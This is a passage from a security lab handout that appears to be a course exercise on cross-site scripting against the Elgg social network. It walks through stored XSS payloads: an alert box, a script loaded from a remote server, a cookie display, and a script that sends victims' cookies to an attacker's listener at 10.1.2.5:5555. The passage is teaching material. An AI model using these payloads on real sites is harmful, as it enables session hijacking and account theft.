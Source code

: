 <h2>2.1        Preparation: Getting Familiar with the <strong>“HTTP Header Live” </strong>tool</h2>

In this lab, we need to construct HTTP requests. To figure out what an acceptable HTTP request in Elgg looks like, we need to be able to capture and analyze HTTP requests. We can use a Firefox add-on called “HTTP Header Live” for this purpose. Before you start working on this lab, you should get familiar with this tool. Instructions on how to use this tool is given in the Guideline section (§ 4.1).

<h2>2.2        Task 1: Posting a Malicious Message to Display an Alert Window</h2>

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. The following JavaScript program will display an alert window:

&lt;script&gt;alert(’XSS’);&lt;/script&gt;

If you embed the above JavaScript code in your profile (e.g. in the brief description field), then any user who views your profile will see the alert window.

In this case, the JavaScript code is short enough to be typed into the short description field. If you want to run a long JavaScript, but you are limited by the number of characters you can type in the form, you can store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the src attribute in the &lt;script&gt; tag. See the following example:

&lt;script type=”text/javascript” src=”http://www.example.com/myscripts.js”&gt;

&lt;/script&gt;

In the above example, the page will fetch the JavaScript program from http://www.example.com, which can be any web server.

<h2>2.3        Task 2: Posting a Malicious Message to Display Cookies</h2>

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:

&lt;script&gt;alert(document.cookie);&lt;/script&gt;

<h2>2.4        Task 3: Stealing Cookies from the Victim’s Machine</h2>

In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

We can do this by having the malicious JavaScript insert an <em>&lt;</em>img<em>&gt; </em>tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the img tag, the browser tries to load the image from the URL in the src field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to the port 5555 of the attacker’s machine (with IP address 10.1.2.5), where the attacker has a TCP server listening to the same port.

<table width="624">

 <tbody>

  <tr>

   <td width="624">&lt;script&gt;document.write(’&lt;img src=http://10.1.2.5:5555?c=’+ escape(document.cookie) + ’                     &gt;’);&lt;/script&gt;</td>
